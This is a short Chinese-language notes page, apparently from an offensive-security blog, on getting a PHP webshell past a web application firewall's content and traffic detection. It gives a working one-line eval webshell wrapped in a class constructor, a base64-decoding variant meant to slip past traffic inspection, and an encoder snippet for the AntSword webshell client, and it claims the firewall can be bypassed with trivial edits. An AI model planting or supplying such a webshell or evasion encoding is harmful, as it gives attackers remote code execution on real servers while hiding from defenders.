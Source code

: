 

### 内容检测绕过

安全🐕的内容检测随便改一下就过了。

```php
<?php
class test
{
    function __construct($cmd){
        @eval($cmd);
    }
}
$cmd=$_POST['a'];
// $cmd = base64_decode($_POST[1]);
$foo = new test($cmd);
?>
```





### 流量检测绕过

```php
system("xxx") #命令执行限制
```

![image-20230517211700124](../images/image-20230517211700124.png)

对流量进行一个`base64`加密即可

`webshell`

```php
<?php
class test
{
    function __construct($cmd){
        @eval($cmd);
    }
}
$cmd=$_POST['a'];
$cmd = base64_decode($_POST[1]);
$foo = new test($cmd);
?>
```

蚁剑

编码器

```php
data[pwd] = Buffer.from(data['_']).toString('base64');
```

选择编码器
